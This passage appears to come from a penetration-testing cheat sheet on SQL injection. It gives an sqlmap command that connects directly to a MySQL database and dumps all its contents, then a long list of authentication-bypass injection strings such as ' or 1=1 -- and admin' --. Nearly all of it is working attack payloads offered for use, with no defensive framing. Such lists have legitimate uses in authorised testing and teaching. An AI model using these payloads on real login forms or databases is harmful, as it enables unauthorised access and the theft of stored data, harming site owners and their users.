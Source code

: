 You can use SQLmap to access a database via its port instead of a URL.

```ps1
sqlmap.py -d "mysql://user:pass@ip/database" --dump-all 
```

## Authentication bypass

```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
```